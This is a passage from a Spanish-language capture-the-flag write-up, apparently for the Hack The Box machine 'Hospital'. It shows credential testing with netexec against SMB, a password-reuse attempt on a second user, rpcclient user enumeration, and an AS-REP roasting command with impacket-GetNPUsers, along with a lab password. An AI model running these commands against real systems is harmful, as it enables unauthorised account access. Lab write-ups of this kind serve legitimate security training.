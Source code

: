Probamos la credencial con netexec:

```
netexec smb 10.10.11.241 -u 'drwilliams' -p 'qwe123!@#'  --shares
```

![escape](Imagenes/66.png)

Viendo que no hay nada interesante de recursos compartidos, vamos a ver si podemos listar más usuarios con rpcclient:

![escape](Imagenes/67.png)

Vemos otro usuario llamado drbrown, podemos intentar ver si se reutiliza la contraseña:

```
netexec smb 10.10.11.241 -u 'drbrown' -p 'qwe123!@#'  --shares
```

![escape](Imagenes/68.png)

Vemos que no es el caso, podemos ver si el usuario drbrown se le puede hacer ASREPRoast:

```
impacket-GetNPUsers -no-pass -usersfile users.txt hospital.htb/
```

![escape](Imagenes/69.png)
